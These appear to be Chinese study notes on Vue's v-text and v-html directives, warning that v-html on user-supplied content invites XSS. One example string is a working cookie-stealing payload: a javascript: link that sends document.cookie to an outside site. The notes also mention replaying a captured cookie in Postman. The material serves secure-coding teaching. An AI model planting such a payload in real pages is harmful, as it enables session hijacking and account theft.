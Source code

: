 1. 作用: 向其所在的节点中渲染文本内容
2. 与插值语法的区别,v-text会替换掉节点中的内容,{{xx}}则不会(也就是说插值语法可以进行拼接)

```html
 <div id="root">
        <div>{{name}}</div>
        <div v-text="name"></div>
    </div>

    <script>
        const vm = new Vue({
            el: '#root',
            data: {
                name: 'ZZMR',
            }
        })
    </script>
```

#### v-html

这里要说一下cookie



![20230108133846](https://gcore.jsdelivr.net/gh/jimmy66886/picgo_two@main/img/20230108133846.png)
这个说实话已经在springboot里体验过了,当时就是拿了cookie,然后用postman发送请求

> **永远不要相信用户的输入**

所以v-html呢

1. 作用: 向指定节点中渲染包含html结构的内容
2. 与插值语法的区别
   - v-html会替换掉节点中的所有内容,{{xx}}则不会
   - v-html可以识别html结构
3. 严重注意:
   - 在网站上动态渲染任意HTML是非常危险的,容易导致XSS工具
   - 一定要在可信的内容上使用v-html,永不要用在用户提交的内容上

```html
<div id="root">
        <div v-html="str"></div>
        <div v-html="str2"></div>
    </div>

    <script>
        const vm = new Vue({
            el: '#root',
            data: {
                name: 'ZZMR',
                str: '<h3>hello</h3>',
                str2: '<a href=javascript:location.href="https://jimmy66886.github.io?"+document.cookie>点一下</a>'
            }
        })
    </script>
```

